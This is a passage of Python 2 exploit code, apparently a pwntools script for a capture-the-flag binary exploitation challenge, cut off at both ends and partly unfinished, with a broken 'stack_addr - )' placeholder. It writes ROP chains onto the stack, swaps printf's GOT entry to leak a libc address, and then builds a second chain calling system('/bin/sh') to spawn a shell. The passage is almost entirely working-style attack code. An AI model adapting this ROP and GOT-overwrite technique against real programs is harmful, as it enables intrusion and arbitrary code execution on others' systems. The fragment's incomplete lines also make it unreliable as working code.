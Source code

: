 ```python
# rop += p64(0)
# rop += p64(POP_RSI_R15_RET)
# rop += p64(stack_addr - ) #todo
# rop += p64(ADD_RSP_0x38)
# rop += p64(p.plt["read"])
# rop += "gadget\x00\x00" #to be filled

i = len(rop) - 0x10
while i >= 0:
	fill_stack(rop[i:i+0x10])
	i -= 0x10

#sh.interactive()

fst_data = stack_addr - 0x1f6
print hex(fst_data)
#0x110 for each, totally len(rop)/0x10
#-0x53e is the stack when printf being called

printf_rsp = stack_addr - 0x31e
rop_dst = printf_rsp + 0x38
print hex(rop_dst)

for i in xrange(0, len(rop)/0x10):
	set_pointers(fst_data + 0x110 * i, rop_dst + 0x10 * i)
	swap()
	set_pointers(fst_data + 0x110 * i + 8, rop_dst + 0x10 * i + 8)
	swap()

add_rsp = rop_dst + 0x20
set_pointers(add_rsp, p.got["printf"])
swap()

sh.send("3\n")
#rop will call main again, with return address being printf
leak = sh.recvuntil("\x7f\n")
libc_addr = u64(leak[:6] + "\x00\x00") - e.symbols["puts"]

print hex(libc_addr)
sh.recvuntil("Your choice: \n")

set_pointers(add_rsp, p.got["printf"])
swap()
#swap printf back

rop2 = p64(POP_RDI_RET)
rop2 += p64(libc_addr + next(e.search("/bin/sh\x00")))
rop2 += p64(libc_addr + e.symbols["system"])
rop2 += p64(0)

i = len(rop2) - 0x10
while i >= 0:
	print rop2[i:i+0x10]
	fill_stack(rop2[i:i+0x10])
	i -= 0x10

fst_data = stack_addr - 0x406
print hex(fst_data)
#0x110 for each, totally len(rop)/0x10
#-0x53e is the stack when printf being called

printf_rsp = stack_addr - 0x52e
rop_dst = printf_rsp + 0x38
```